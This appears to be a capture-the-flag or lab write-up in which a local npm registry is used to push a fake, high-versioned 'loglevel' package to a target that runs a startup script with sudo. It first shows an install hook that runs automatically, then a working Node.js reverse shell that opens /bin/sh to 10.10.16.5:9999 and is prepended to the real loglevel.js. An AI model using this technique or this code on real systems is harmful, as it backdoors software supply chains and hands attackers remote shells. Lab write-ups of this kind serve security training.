 ```shell
docker pull verdaccio/verdaccio
docker run -it --rm --name verdaccio -p 4873:4873 verdaccio/verdaccio
```

### Hosting a malicious package

Now we create a fake package "loglevel" with `npm init`:

```json
{
  "name": "loglevel",
  "version": "13.37.0",
  "description": "dca",
  "main": "index.js",
  "scripts": {
    "install": "touch /tmp/pwney",
    "test": "touch /tmp/pwney"
  },
  "author": "apehex",
  "license": "ISC"
}
```

Make sure the version is high enough to justify an update.

This first version is for testing purpose: this simple `touch` hook will ensure that the server is reachable and that hooks are actually triggered.

Next we publish it:

```shell
sudo npm adduser --registry http://localhost:4873
npm login --registry http://localhost:4873
npm publish  --registry http://localhost:4873
```

And on the target machine:

```shell
sudo /opt/app/startup.sh
```

But it hangs, and my local registry tries to download "loglevel" from an official registry...

May-be this minimal package is somehow broken / incomplete. Instead, we can download the original loglevel and add a reverse shell at the start of `loglevel.js`:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9999, "10.10.16.5", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
